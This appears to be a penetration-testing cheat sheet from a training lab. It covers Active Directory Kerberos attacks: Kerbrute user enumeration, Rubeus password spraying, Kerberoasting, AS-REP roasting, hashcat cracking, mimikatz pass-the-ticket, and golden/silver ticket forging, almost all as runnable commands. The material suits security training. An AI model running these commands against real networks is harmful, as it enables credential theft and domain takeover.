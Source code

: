 # AD Attacking Kerberos

## <mark style="color:red;">Kerbrute</mark>

### <mark style="color:blue;">Installation</mark>

1. Download a precompiled binary for your OS - [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)
2. Rename kerbrute\_linux\_amd64 to kerbrute
3. `chmod +x kerbrute` - make kerbrute executable

### <mark style="color:blue;">Enumerating Users</mark>

1. cd into the directory that you put Kerbrute
2. Download the wordlist to enumerate with [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)
3. Brute force user accounts from a domain controller using a supplied wordlist:

```bash
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

## <mark style="color:red;">Rubeus</mark>

### <mark style="color:blue;">Harvesting Tickets</mark>

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

```bash
C:\> cd Downloads #Navigate to the directory Rubeus is in
C:\> Rubeus.exe harvest /interval:30 #Tell Rubeus to harvest for TGTs every 30 seconds
```

### <mark style="color:blue;">Brute-Forcing / Password-Spraying</mark>

Rubeus can both brute force passwords as well as password spray user accounts.

```bash
C:\> cd Downloads #Navigate to the directory Rubeus is in
C:\> Rubeus.exe brute /password:Password1 /noticket #This will take a given password and "spray" it against all found users then give the .kirbi TGT for that user
```

{% hint style="info" %}
Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.
{% endhint %}

## <mark style="color:red;">Kerberoasting</mark>

### <mark style="color:blue;">Rubeus</mark>

```bash
C:\> cd Downloads #Navigate to the directory Rubeus is in
C:\> Rubeus.exe kerberoast #This will dump the Kerberos hash of any kerberoastable users
```

Copy the hash to Kali into a .txt file so it can be cracked using hashcat:

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```

### <mark style="color:blue;">Impacket</mark>

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

Download the precompiled package from: [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket\_0\_9\_19)

```bash
cd Impacket-0.9.19 #Navigate to the impacket directory
pip install . #This will install all needed dependencies
```

```bash
cd /usr/share/doc/python3-impacket/examples/ #Navigate to where GetUserSPNs.py is located

# Dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request 

# Crack the hash using hashcat
hashcat -m 13100 -a 0 hash.txt Pass.txt - now crack that hash
```

## <mark style="color:red;">AS-REP Roasting</mark>

```bash
C:\> Rubeus.exe asreproast #Dumping KRBASREP5 Hashes

#Transfer the hash to Kali and put the hash into a txt file
#Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User...

#Crack those Hashes
hashcat -m 18200 hash.txt Pass.txt
```

## <mark style="color:red;">Pass the Ticket</mark>

### <mark style="color:blue;">Prepare Mimikatz & Dump Tickets</mark>

```bash
C:\> cd Downloads #Navigate to the directory mimikatz is in
C:\> mimikatz.exe #Run mimikatz
mimikatz> privilege::debug #Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz
mimikatz> sekurlsa::tickets /export #This will export all of the .kirbi tickets into the directory that you are currently in
```

### <mark style="color:blue;">Pass the Ticket</mark>

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

```bash
#Run this command inside of mimikatz with the ticket that you harvested from earlier. 
# It will cache and impersonate the given ticket
mimikatz> kerberos::ptt <ticket> 

#Check that we successfully impersonated the ticket by listing our cached tickets.
mimikatz> klist
```

You now have impersonated the ticket giving you the same rights as the TGT you're impersonating.\


## <mark style="color:red;">Golden / Silver Ticket Attack</mark>

### <mark style="color:blue;">Dump the krbtgt hash</mark>

```bash
#Navigate to the directory mimikatz is in and run mimikatz
cd downloads && mimikatz.exe
mimikatz> privilege::debug #Ensure this outputs [privilege '20' ok]

#Dump the hash as well as the security identifier needed to create a Golden Ticket. 
#To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
mimikatz> lsadump::lsa /inject /name:krbtgt 


```

### <mark style="color:blue;">Create a Golden/Silver Ticket</mark>

Creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103:

```bash
mimikatz> kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
```

Demo:

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:blue;">Use the Golden/Silver Ticket to access other machines</mark>

This will open a new elevated command prompt with the given ticket in mimikatz:

```
mimikatz> misc::cmd
```

Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.
